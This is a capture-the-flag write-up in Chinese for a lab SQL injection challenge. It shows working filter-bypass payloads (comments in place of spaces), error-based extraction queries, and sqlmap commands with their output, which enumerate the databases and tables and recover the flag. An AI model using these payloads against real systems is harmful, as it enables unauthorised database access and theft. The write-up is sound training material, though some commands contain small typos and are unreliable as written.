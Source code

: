 # 简单sql注入3

## 题目

> http://ctf5.shiyanbar.com/web/index_3.php
>
> flag
>
> 到底过滤了什么东西？

分类：sql injection

## 流程图

## 解题步骤

#### 参考文章

无

#### 步骤

##### 0x1 直接猜测法

1. 在文本框输入1，提交，链接变成id=1

2. 在文件框输入1'，提交，报错，判断存在注入

3. 在文本框输入`test`，提交，链接变成id=test，未返回错误，说明该注入类型为字符型注入

4. 使用一下语句：

   ```mysql
   1'/**/union/**/select/**/flag/**/from/**/flag/**/where/**/'t'='t
   ```

   返回`Hello!`，由于 后台屏蔽了输出，所以只能采用盲注的办法，所以尝试采用sqlmap来实现

##### 0x2 标准注入 

1. 使用sqlmap

```shell
sqlmap.py -u "http://ctf5.shiyanbar.com/web/index_3.php?id=1" --dbs --tamper "space2comment.py" --level 2 -v 3
```

- 参数说明：
  - --dbs 查找所有数据库
  - "space2comment.py" 将空格转换成为/**/
- 获取数据库数量的payload

```mysql
1'/**/AND/**/(SELECT/**/8427/**/FROM(SELECT/**/COUNT(*),CONCAT(0x7162746671,(SELECT/**/IFNULL(CAST(COUNT(schema_name)/**/AS/**/CHAR),0x20)/**/FROM/**/INFORMATION_SCHEMA.SCHEMATA),0x717a717071,FLOOR(RAND(0)*2))x/**/FROM/**/INFORMATION_SCHEMA.CHARACTER_SETS/**/GROUP/**/BY/**/x)a)/**/AND/**/'IUDH'='IUDH
```

返回值：

`Duplicate entry 'qbtfq3qzqpq1' for key 'group_key'`

注意其中的值`3`

- 依次返回三个表的payload

```mysql
1'/**/AND/**/(SELECT/**/8165/**/FROM(SELECT/**/COUNT(*),CONCAT(0x7162746671,(SELECT/**/MID((IFNULL(CAST(schema_name/**/AS/**/CHAR),0x20)),1,50)/**/FROM/**/INFORMATION_SCHEMA.SCHEMATA/**/LIMIT/**/0,1),0x717a717071,FLOOR(RAND(0)*2))x/**/FROM/**/INFORMATION_SCHEMA.CHARACTER_SETS/**/GROUP/**/BY/**/x)a)/**/AND/**/'xprA'='xprA
[16:35:47] [INFO] retrieved: information_schema
```

返回结果：

### `Duplicate entry 'qbtfqinformation_schemaqzqpq1' for key 'group_key'`

```mysql
[16:35:47] [PAYLOAD] 1'/**/AND/**/(SELECT/**/3904/**/FROM(SELECT/**/COUNT(*),CONCAT(0x7162746671,(SELECT/**/MID((IFNULL(CAST(schema_name/**/AS/**/CHAR),0x20)),1,50)/**/FROM/**/INFORMATION_SCHEMA.SCHEMATA/**/LIMIT/**/1,1),0x717a717071,FLOOR(RAND(0)*2))x/**/FROM/**/INFORMATION_SCHEMA.CHARACTER_SETS/**/GROUP/**/BY/**/x)a)/**/AND/**/'YvjH'='YvjH
[16:35:48] [INFO] retrieved: test
```

```mysql
[16:35:48] [PAYLOAD] 1'/**/AND/**/(SELECT/**/2380/**/FROM(SELECT/**/COUNT(*),CONCAT(0x7162746671,(SELECT/**/MID((IFNULL(CAST(schema_name/**/AS/**/CHAR),0x20)),1,50)/**/FROM/**/INFORMATION_SCHEMA.SCHEMATA/**/LIMIT/**/2,1),0x717a717071,FLOOR(RAND(0)*2))x/**/FROM/**/INFORMATION_SCHEMA.CHARACTER_SETS/**/GROUP/**/BY/**/x)a)/**/AND/**/'huJK'='huJK
[16:35:49] [INFO] retrieved: web1
```

以后来研究一下，sqlmap是如何在避过`database()`检测的情况下，实现查询数据库名的

2. 猜解表

   ```shell
   sqlmap.py -u "http://ctf5.shiyanbar.com/web/index_3.php?id=1" -p "id" --thread 10 --dbms=mysql --tables -D "web1"   --tamper "space2comment.py" --level 2 -v 3
   ```

   > [2 tables]
   > +-------+
   > | flag  |
   > | web_1 |
   > +-------+

3. 猜测列

   ```shell
   sqlmap.py -u "http://ctf5.shiyanbar.com/web/index_3.php?id=1" -p "id" --thread 10 --dbms=mysql --columns -T "flag-D "web1"   --tamper "space2comment.py" --level 2 -v 3
   ```

   > | Column |
   > +--------+
   > | flag   | char(30) |
   > | id     |

4. 猜解数据

   ```shell
   sqlmap.py -u "http://ctf5.shiyanbar.com/web/index_3.php?id=1" -p "id" --thread 10 --dbms=mysql --columns -T "flag" -D "web1"   --tamper "space2comment.py" --level 2 -v 3
   ```

   > +----------------------------+
   > | flag                       |
   > +----------------------------+
   > | flag{Y0u_@r3_5O_dAmn_90Od} |
   > +----------------------------+

## 解答思路

1. 判断是否存在注入点
2. 判断注入类型
3. 判断后台的过滤机制
   - 关键字被过滤
     - 重复关键词（例如selectselect），不成功
   - 空格被过滤
     - 使用双重空格（使用+号替代也需要重复两次），不成功
   - 使用/**/替换空格，测试成功
   - 在有错误提示的情况下，可以有针对性的修改注入语句，如果没有错误提示，则需要遍历测试可能的绕过方式
4. 由于返现信息被屏蔽，只能采用盲注，这里使用了sqlmap


## 漏洞挖掘思路

- 无

## 自动化解析

- TODO

- 判断题目特征：`web` `php` `md5` 
- 设定题目难度等级`level`为simple
- 提交相应符合要求的字符串

